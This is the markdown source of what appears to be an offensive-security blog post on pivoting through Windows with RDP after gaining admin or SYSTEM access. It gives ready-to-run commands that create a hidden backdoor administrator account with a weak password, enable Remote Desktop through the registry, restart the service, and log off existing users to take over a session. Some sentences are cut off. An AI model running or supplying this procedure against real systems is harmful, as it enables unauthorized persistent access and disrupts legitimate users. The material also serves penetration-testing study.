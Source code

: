```yaml
---
layout: post
title: Windows RDP Pivot
titledate: 10/17/23
tags: ["infosec","offsec","rdp", "privesc", "powershell"]
---
```


#### Enabling RDP

in many cases i've found it much easier to work with windows lateral movement and internal network enumeration if I have gui access to the system

if we can get a shell on a windows machine that has admin or better yet system perms, it can be much quicker and more reliable to use a rdp connection than a finnicky shell

set up the connection

depending on the windows version i've found that one of these commands will work - so i run them consecutively 

to not ruin any current default creds that may be useable on other machines, we'll add a new user

    net user ghoog password123! /add
    net localgroup administrators ghoog /add
    net localgroup "Remote Desktop Users" ghoog /add

then execute these PS commands

    Get-CimInstance -Namespace "root\cimv2\TerminalServices" -Class win32_terminalservicesetting | select ServerName, AllowTSConnections

    Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

    Restart-Service -Force -DisplayName "Remote Desktop Services"

then after a minute or so the rdp port should be enabled and viewable with nmap or 

if unable to rdp in , seeing ui error max number of sessions reached, we can 

    query session
    logoff 1

with 1 being a user that is logged in, (of course this could ruin session creds but will get us in for now)

or + clipboard option in xfreerdp